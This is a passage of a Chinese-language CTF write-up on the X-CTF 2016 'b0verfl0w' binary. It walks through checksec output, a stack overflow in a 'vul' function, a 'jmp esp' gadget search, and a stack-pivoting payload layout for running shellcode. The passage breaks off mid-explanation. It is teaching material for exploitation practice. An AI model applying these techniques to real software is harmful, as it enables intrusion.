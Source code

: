 ```shell
➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ checksec b0verfl0w                 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看出源程序爲 32 位，也沒有開啓 NX 保護，下面我們來找一下程序的漏洞

```C
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

可以看出，源程序存在棧溢出漏洞。但是其所能溢出的字節就只有 50-0x20-4=14 個字節，所以我們很難執行一些比較好的 ROP。這裏我們就考慮 stack pivoting 。由於程序本身並沒有開啓堆棧保護，所以我們可以在棧上佈置shellcode 並執行。基本利用思路如下

- 利用棧溢出佈置 shellcode
- 控制 eip 指向 shellcode 處

第一步，還是比較容易地，直接讀取即可，但是由於程序本身會開啓 ASLR 保護，所以我們很難直接知道 shellcode 的地址。但是棧上相對偏移是固定的，所以我們可以利用棧溢出對 esp 進行操作，使其指向 shellcode 處，並且直接控制程序跳轉至 esp處。那下面就是找控制程序跳轉到 esp 處的 gadgets 了。

```shell
➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ ROPgadget --binary b0verfl0w --only 'jmp|ret'         
Gadgets information
============================================================
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 3
```

這裏我們發現有一個可以直接跳轉到 esp 的 gadgets。那麼我們可以佈置 payload 如下

```text
shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp
```

那麼我們 payload 中的最後一部分改如何設置 esp 呢，可以知道
